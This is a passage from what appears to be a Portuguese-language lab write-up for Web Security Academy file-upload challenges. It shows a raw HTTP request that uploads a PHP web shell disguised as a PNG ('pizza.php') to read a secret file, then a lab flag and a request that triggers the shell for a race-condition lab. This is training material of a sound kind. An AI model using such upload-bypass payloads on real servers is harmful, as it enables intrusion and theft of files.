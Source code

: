 ````
Upgrade-Insecure-Requests: 1
Origin: https://ac221ff21ebd3511c06727b0007c00c8.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx4cNCNmFY2Jv056y
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ac221ff21ebd3511c06727b0007c00c8.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryx4cNCNmFY2Jv056y
Content-Disposition: form-data; name="avatar"; filename="pizza.php"
Content-Type: image/png

PNG
AÒ>gæíð±1ÆæH#\æùLñLfÇcí?]»6Á?äüücìãsEÆópMyyLMíå1Æ®üx®«=¿¹¶¶¶sc]æ|®
Áì6Ü#0Æþ×<?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundaryx4cNCNmFY2Jv056y
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryx4cNCNmFY2Jv056y
Content-Disposition: form-data; name="csrf"

wYlMxt6LbnTxYyM6MJLtc4yXLIbvJdh6
------WebKitFormBoundaryx4cNCNmFY2Jv056y--
````

Flag: `e4X7zfE6kout4qJXeIl53uRdOZuF7e3r`

### >> 7. Web shell upload via race condition

Envie para o Intruder a requisição GET e inicie a o ataque
````
GET /files/avatars/pizza.php HTTP/1.1
Host: acbe1f4b1e086478c0a92692004d00be.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````
